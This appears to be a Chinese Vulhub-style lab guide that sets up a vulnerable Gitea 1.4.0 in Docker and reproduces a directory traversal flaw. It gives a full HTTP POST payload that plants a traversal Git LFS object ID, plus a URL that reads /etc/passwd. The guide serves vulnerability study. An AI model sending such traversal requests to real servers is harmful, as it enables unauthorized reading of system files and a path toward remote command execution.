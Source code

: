 # Gitea 1.4.0 目录穿越导致命令执行漏洞

Gitea是从gogs衍生出的一个开源项目，是一个类似于Github、Gitlab的多用户Git仓库管理平台。其1.4.0版本中有一处逻辑错误，导致未授权用户可以穿越目录，读写任意文件，最终导致执行任意命令。

参考链接：

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## 漏洞环境

执行如下命令启动启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://you-ip:3000`，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

安装完成后，创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：

![](1.png)

然后，需要执行一次`docker-compose restart`重启gitea服务。（原因详见第二个参考链接）

## 漏洞复现

由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如`vulhub/repo`，发送如下数据包，添加一个Git LFS对象：

```
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

然后，访问`http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth`，即可看到`/etc/passwd`已被成功读取：

![](2.png)
